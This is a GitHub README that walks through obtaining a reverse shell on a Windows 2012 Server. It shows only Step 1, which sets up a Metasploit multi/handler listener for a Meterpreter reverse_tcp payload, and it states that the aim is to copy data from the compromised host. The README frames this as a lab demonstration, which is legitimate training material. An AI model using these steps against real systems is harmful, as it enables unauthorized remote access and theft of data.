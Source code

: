 # theperfectreverseshell
This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access to view and copy the output produced by downloading certain tools to the compromised host to the attacking machine and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  -1 - sudo msfconsole <br>
  -2 - use multi/handler
  -3 - configure payload (preferable : windows/meterpreter/rerverse_tcp)
  -4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on>
  -5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, it a disconnect from the client(victim). After doing so, you should see the following screen :
  
  ![image](https://user-images.githubusercontent.com/101802030/225633287-455e3c11-18a9-4bb8-b29f-a2d65dc23c86.png)

  
  


